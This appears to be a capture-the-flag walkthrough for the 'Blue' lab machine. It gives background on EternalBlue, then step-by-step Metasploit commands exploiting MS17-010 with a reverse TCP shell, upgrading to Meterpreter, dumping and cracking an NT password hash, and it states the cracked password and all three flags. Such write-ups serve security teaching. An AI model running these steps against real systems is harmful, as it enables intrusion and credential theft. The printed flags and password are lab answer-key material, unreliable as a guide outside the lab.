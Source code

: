 # Blue Walkthrough

## Background: EternalBlue Exploit

EternalBlue is a computer exploit developed by the U.S. National Security Agency (NSA). It was leaked by the Shadow Brokers hacker group on April 14, 2017, just a month after Microsoft had released patches to address the vulnerability.

On May 12, 2017, the worldwide WannaCry ransomware leveraged the EternalBlue exploit to attack unpatched computers: Subsequently, on June 27, 2017, the exploit was once again employed in the 2017 NotPetya cyberattack against additional unpatched computers.

EternalBlue has been associated with various cyber incidents, including its use by the Chinese hacking group Buckeye (APT3) since March 2016. It was reported that they likely discovered and repurposed the tool: Additionally, the exploit was employed as part of the Retefe banking trojan's operations since at least September 5, 2017.

One of the most notable deployments of EternalBlue was in collaboration with the DoublePulsar backdoor implant tool during the execution of the WannaCry attacks in 2017.

## Overview
This walkthrough guides you through the process of gaining access to a vulnerable machine named "BLUE" and escalating privileges. The steps involve exploiting a vulnerability, discovering user credentials, and implementing server hardening measures.

## Step 1: Port Scanning and Vulnerability Identification

```bash
nmap -sV -sC --script vuln 10.10.200.244
```

The `-sV` flag adds version detection, the `-sC` flag runs default scripts, and the `--script` flag identifies vulnerabilities.

- **Vulnerability Identified:** smb-vuln-ms17-010, CVE-2017-0143

## Step 2: Exploitation

### Metasploit Exploit

```bash
# Start Metasploit
msfconsole

# Search for the ms17-010 exploit
search ms17-010 type:exploit

# Load the EternalBlue module
use exploit/windows/smb/ms17_010_eternalblue

# Set required values, e.g., RHOSTS
show options
set RHOSTS 10.10.200.244

# Set payload and RHOSTS
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.200.244

# Run the exploit
exploit
```

- **Exploitation Code Path:** exploit/windows/smb/ms17_010_eternalblue
- **Required Value:** RHOSTS

### Meterpreter Shell Conversion

```bash
# Background the shell
background

# Search for shell_to_meterpreter module
search shell_to_meterpreter

# Load the shell_to_meterpreter module
use post/multi/manage/shell_to_meterpreter

# Show options and set SESSION value
show options
set SESSION 1

# Run the module
run
```

- **Post Module Path:** post/multi/manage/shell_to_meterpreter
- **Required Option:** SESSION

## Step 3: Privilege Escalation

### Meterpreter Privilege Escalation

```bash
# Background the shell
background

# Verify system access
getsystem

# Migrate to a system process
migrate PROCESS_ID
```

## Step 4: Password Cracking

```bash
# Dump passwords with hashdump
hashdump

# Non-default user found: Jon
# Copy hash to a file (e.g., hash.txt)
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt

# Crack password with John the Ripper
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- **Non-default User:** Jon
- **Cracked Password:** alqfna22

## Step 5: Flag Hunt

### Flag 1

```bash
# Navigate to system root
cd /
ls
cat flag1.txt
```

- **Flag 1:** flag{access_the_machine}

### Flag 2

```bash
# Navigate to hashed password location
cd C:/Windows/System32/config
ls
cat flag2.txt
```

- **Flag 2:** flag{sam_database_elevated_access}

### Flag 3

```bash
# Navigate to Jon's Documents folder
cd /Users/Jon/Documents
ls
cat flag3.txt
```

- **Flag 3:** flag{admin_documents_can_be_valuable}

---

**Congratulations!** You have completed the Blue walkthrough. If you found this helpful, consider giving it a thumbs up!
